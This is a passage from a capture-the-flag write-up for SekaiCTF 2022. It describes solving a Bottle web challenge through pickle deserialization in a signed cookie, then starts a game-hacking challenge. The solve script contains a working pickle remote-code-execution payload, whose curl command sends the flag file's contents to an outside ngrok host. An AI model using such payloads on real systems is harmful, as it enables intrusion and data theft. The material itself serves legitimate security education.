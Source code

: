 ![asdf](https://an00brektn.github.io/img/sekaictf-2022/Pasted%20image%2020221003165429.png)

Aaand it did not work. Looking back at the source code, if an exception is thrown at any point of the cookie manipulation, we'll get "pls no hax" returned to us. This isn't really that significant of a mitigation. The error is thrown when trying to parse the JSON encoded into the cookie, so if we just put our payload in valid JSON, it should deserialize and be parsed properly. We should also notice that we're actually double pickling here, the `RCE()` class should stand as is. Our final solve script can look like this:

```python
from bottle import route, run, template, request, response, error
import os
import pickle

SECRET = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"

class RCE:
    def __reduce__(self):
        cmd = ('curl http://4.tcp.ngrok.io:14387/?q=$( /flag | base64 -w0 )')
        return os.system, (cmd,)

@route("/test")
def index():
    session = {"name":RCE()} 
    response.set_cookie("name", session, secret=SECRET)
    return "cookie :)"

if __name__ == "__main__":
    run(host="0.0.0.0", port=8001)
```

And using this will get us the flag. At the time of me writing this, the server keeps timing out when I try to do it, probably because infra is downgraded after the event, but trust me, this works.

**flag:** `SEKAI{W3lcome_To_Our_Bottle}`

## Perfect Match X-treme
> Rev (but actually game hacking), 111 Solves \| [sahuang](https://twitter.com/sahuang97) & [enscribe](https://enscribe.dev/)

### Description
`Can you qualify Fall Guy’s Perfect Match and get the flag?`

### Challenge
Unlike the usual "crackme" rev challenge, this one is a video game. Opening the zip, the files are laid out like so:
```shell
C:.
\---Build
    +---MonoBleedingEdge
    |   +---EmbedRuntime
    |   \---etc
    |       \---mono
    |           +---2.0
    |           |   \---Browsers
    |           +---4.0
    |           |   \---Browsers
    |           +---4.5
    |           |   \---Browsers
    |           \---mconfig
    \---PerfectMatch_Data
        +---Managed
        \---Resources
```
